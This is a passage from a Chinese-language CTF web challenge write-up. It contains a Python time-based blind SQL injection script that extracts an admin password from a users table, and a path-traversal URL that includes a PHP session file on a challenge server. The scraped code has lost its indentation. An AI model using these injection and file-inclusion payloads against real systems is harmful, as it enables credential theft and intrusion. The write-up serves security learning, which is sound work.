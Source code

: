 cookie={

"PHPSESSID":"hkjj65gnmdjvs1mcbct3u9nmd0"

}

for i in range(1,1000):

print i

payload = flag

for j in "0123456789."+string.letters+"!@#$^&*(){}=+`~_":

data = {

"signature":urllib.unquote("1`,`123`),((select if((select password from ctf_users limit 1)) like 0x%s25,sleep(3),0)),(select 2),`baidu"%(payload+hex(ord(j))[2:])),

"mood":"1"

}

try:

r =requests.post(url=url,data=data,cookies=cookie,timeout=2.5)

except:

flag += hex(ord(j))[2:]

true_flag += j

print true_flag

break

可以得到管理员密码nu1ladmin

但是继续往后登录遇到瓶颈

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

后来题目又陆续给出提示

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

随即我又注了一下admin的allow_ip，发现是127.0.0.1，猜想可能是需要ssrf以本地用户登录才可

但是到此为止，找了整整一下午，都没发现问题点，无奈开始换思路，发现phpinfo还在，于是去看了看，没想到惊喜的发现了攻击点

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

可以看到upload_progress.enabled开启，并且给出了session.save_path，我们去包含一下试试

http://47.97.221.96/index.php?action=../../../../var/lib/php5/sess_bi1gotgju078l3tvdnlrpnofk2

发现成功包含

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

此时想到一个session_upload的解法，曾经在jarvis-oj也出现过：
